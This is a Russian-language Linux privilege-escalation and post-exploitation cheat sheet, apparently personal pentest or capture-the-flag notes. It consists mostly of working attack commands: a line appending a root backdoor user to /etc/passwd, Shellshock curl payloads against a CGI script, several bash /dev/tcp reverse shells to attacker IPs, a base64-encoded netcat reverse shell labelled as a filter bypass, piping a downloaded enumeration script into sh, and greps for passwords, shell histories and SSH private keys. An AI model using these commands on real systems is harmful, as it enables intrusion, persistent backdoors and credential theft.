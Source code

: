 # pkexec
Как понять, подвержены ли ваши дистрибутивы уязвимости pkexec:

whereis pkexec

which pkexec

ls -la /usr/bin/pkexec

find / -type f -name pkexec

poc - https://github.com/arthepsy/CVE-2021-4034

# Полезные комманды Линукс

https://putty.org.ru/articles/unix-linux-ref


# открыть gui 
open .

# Добавление пользователя с правами root в /etc/passwd

echo "boot:$(openssl passwd -6 -salt boot password123):0:0:boot:/root:/bin/bash" >> /etc/passwd


# Скрипты повышения привелегий 

https://github.com/rebootuser/LinEnum

https://github.com/rebootuser/LinEnum.git

https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

wget https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh | sh

# enumeration

дистрибутив;

        cat /etc/issue
        cat /etc/*-release

версия ядра и разрядность;
       
        cat /proc/version
        uname -a

сетевые интерфейсы, порты, службы;
        
        netstat
        ss -tulpn

процессы
        ps aux
        

Файлы, которые стоит проверить

/home/user/.bash_history
/home/user/password.txt
/home/user/.history
/home/user/.mysql_history
/home/user/.ssh/id_rsa


        
curl -H "User-Agent: () { :;}; echo; /bin/sudo -l" http://10.8.0.10/cgi-bin/shell.sh




curl -H "User-Agent: () { :; }; echo; /bin/bash -i >& /dev/tcp/10.8.0.4/1234 0>&1" http://10.8.0.10/cgi-bin/shell.sh


http://localhost.com/?name=#{'%20`bash -c "bash -i >& /dev/tcp/10.10.14.61/4242 0>&1"`'}

bash -c "bash -i >& /dev/tcp/10.10.14.50/4444 0>&1"

/bin/bash -c 'bash -i >& /dev/tcp/192.168.50.123/4444 0>&1'

echo "system(\"bash -c 'bash -i >& /dev/tcp/10.10.14.50/4444 0>&1'\")" > file.plt

echo bmMgMTkyLjE2OC41MC4xMjMgNDQ0NCAtZSAvYmluL2Jhc2gK | base64 -d | bash   (обход фильтрации)






https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi

https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php   (Лучший PHP)

https://www.revshells.com/


# Повысить до tty интелектуальной оболочки командой 

python3 -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm


/bin/bash -p - это команда запуска интерпретатора командной строки Bash с флагом -p, который означает "privileged mode" (привилегированный режим).

# Найти файлы владельцем которого является группа
find / -group bugtracker 2>/dev/null

# Найти файлы владельцем которого является пользователь
find / -type f -user emily 2>/dev/null

# ПОИСК ПАРОЛЕЙ

cat * | grep -i passw*

grep -r "passw".

grep -rni 'enter_network' (поиск везде от текущей)

for i in $(grep -oP "('.*?')" -R . --no-filename);do x=$(echo -n $i | ent| grep Entropy| awk '{print $3}' ); echo "$x $i"; done | sort -n

(поиск всего, заключенного в  '   ' особенно для паролей с применением ентропии)

grep -E '[A-Z]{1,9}[-_][a-z]{1,9}' -R .

# Найти запущенные процессы 
ps -aux

pspy64 (Надо скачивать)

https://github.com/DominicBreuker/pspy

wget https://github.com/DominicBreuker/pspy/releases/download/v1.0.0/pspy64s

# Найти все файлы с пермишеном S

find / -user root -perm -4000 -exec ls -ldb {} \;

find / -user root -perm -u=s -type f 2>/dev/null

find / -perm -u=s 2>/dev/null

# Найти все сетевые соежинения 

 ss -tulpn

# Разрешенные пермишены

Sudo -l

getcap -r / 2>/dev/null
